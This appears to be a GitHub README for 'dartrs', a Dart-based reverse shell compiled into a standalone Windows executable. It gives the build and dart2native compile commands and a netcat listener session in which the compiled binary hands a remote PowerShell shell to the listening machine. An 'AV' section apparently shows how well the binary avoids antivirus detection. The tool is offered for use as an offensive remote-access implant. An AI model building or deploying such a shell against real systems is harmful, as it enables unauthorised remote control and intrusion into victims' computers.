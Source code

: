 # dartrs

portable dart based reverse shell (self-contained executable)

**Build**

```
root@kali:/opt/dartrs# apt-get install dart

```
- https://dart.dev/get-dart

**Usage**

create a self-contained binary. (cross compilation is not support by dart2native yet)
- https://medium.com/dartlang/dart2native-a76c815e6baf

```
C:\Users\IEUser\Desktop\dart2native dartrs.dart
Generated: c:/users/ieuser/desktop/dartrs.exe

```

```
root@WOPR-KALI:~# nc -lvp 8080
listening on [any] 8080 ...
connect to [192.168.1.99] from WOPR-KALI [192.168.1.99] 33474
whoami
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\IEUser\Desktop> whoami
msedgewin10\ieuser

```

**AV**

![Screenshot_2019-11-29_00-15-58](https://user-images.githubusercontent.com/56988989/69836016-ab08b100-123d-11ea-8a33-31703da026da.png)

**Limitations**

Code signing issue. (https://github.com/dart-lang/sdk/issues/39106)

Enjoy~
